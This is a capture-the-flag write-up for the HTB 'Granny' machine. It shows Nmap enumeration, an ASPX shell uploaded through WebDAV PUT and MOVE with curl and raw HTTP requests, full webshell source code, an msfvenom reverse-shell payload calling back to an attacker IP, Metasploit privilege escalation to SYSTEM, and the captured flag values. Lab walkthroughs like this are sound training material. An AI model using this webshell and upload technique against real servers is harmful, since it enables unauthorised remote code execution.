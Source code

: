 # Granny

## Information Gathering
10.10.10.15

## Enumeration and Scanning
Scanning the only given host:<br>
```bash
# Nmap 7.92 scan initiated Mon Jan  3 23:49:56 2022 as: nmap -sC -sV -oN nmap/granny.nmap 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.030s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Tue, 04 Jan 2022 05:04:55 GMT
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan  3 23:50:08 2022 -- 1 IP address (1 host up) scanned in 12.15 seconds
```
When configuring a web server you really only ever want the GET and POST HTTP methods. Anything else is considered unecessary unless you REALLY need it.<br>
The HTTP method PUT allows for arbitrary file upload. I am potentially able to upload a reverse shell/web shell. Because this is a Microsoft IIS httpd 6.0 WebServer it is most likely that ASPX will be the file format I will use to gain remote code execution.<br>
I use <a href="https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx">this</a> web shell. I also use BurpSuite to create my custom HTTP header.
```bash
PUT /shell.aspx HTTP/1.1
Host: 10.10.10.15
Content-Length: 15968

[ASPX_SCRIPT_HERE]
```
This returns a 403 - Forbidden error code because I am not allowed to upload executable files directly. Fortunately, there is another HTTP header verb that can be used. MOVE allows for the renaming of files hosted on webserver. Uploading "shell.aspx" as "shell.txt" and then using MOVE to rename the file to the proper extension yields a reverse shell.<br>
Start the listener:<br>
```bash
nc -lnvp 8888
```
PUT the file:<br>
```bash
PUT /shell.txt HTTP/1.1
Host: 10.10.10.15
Content-Length: 15968

[ASPX_SCRIPT_HERE]
```
MOVE the file:<br>
```bash
MOVE /shell.txt HTTP/1.1
Host: 10.10.10.15
Destination: http://10.10.10.15/shell.aspx
```
And a reverse shell is caught!<br>
```bash
connect to [10.10.14.122] from (UNKNOWN) [10.10.10.15] 1031
Spawn Shell...
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

For the WebShell<br>

There is a webshell in Kali at /usr/share/webshells/aspx/cmdasp.aspx
```aspx
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>
```
Using CLI we can upload this shell<br>
```bash
curl -X PUT http://10.10.10.15/cmdasp.txt -d @cmdasp.aspx
curl -X MOVE http://10.10.10.15/cmdasp.txt -H 'Destination: http://10.10.10.15/cmdasp.aspx'
```
When navigating to /cmdasp.aspx there is a webshell.<br>
Now I can generate a payload using msfvenom<br>
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.122 LPORT=9999 -f aspx > ex.aspx
```
And perform the same actions to upload the file.<br>
```bash
curl -X PUT http://10.10.10.15/ex.txt --data-binary @ex.aspx
curl -X MOVE http://10.10.10.15/ex.txt -H "Destination: http://10.10.10.15/ex.aspx"
```
Boot up Metasploit and start a shell. Set options accordingly:<br>
```bash
msfconsole
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp

[OPTION_STUFF]

meterpreter > 
```


## Privilege Escalation
Because I am using Metasploit, I can let it run a scanner for me.<br>
```bash
meterpreter > background
msf6 > search local_exploit
msf6 > use post/multi/recon/local_exploit_suggester
msf6 > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 29 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```
There are a lot of options. I went with ms14_058. So load up the payload, fill out the options, and execute the payload.<br>
```bash
msf6 > use exploit/windows/local/ms14_058_track_popup_menu
msf6 > run 

[*] Started reverse TCP handler on 10.10.14.122:4444 
[*] Reflectively injecting the exploit DLL and triggering the exploit...
[*] Launching msiexec to host the DLL...
[+] Process 1348 launched.
[*] Reflectively injecting the DLL into 1348...
[*] Sending stage (175174 bytes) to 10.10.10.15
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 4 opened (10.10.14.122:4444 -> 10.10.10.15:1042 ) at 2022-01-04 14:54:00 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

The flags are captured below:
```
User Flag: 700c5dc163014e22b3e408f8703f67d1
Root Flag: aa4beed1c0584445ab463a6747bd06e9
```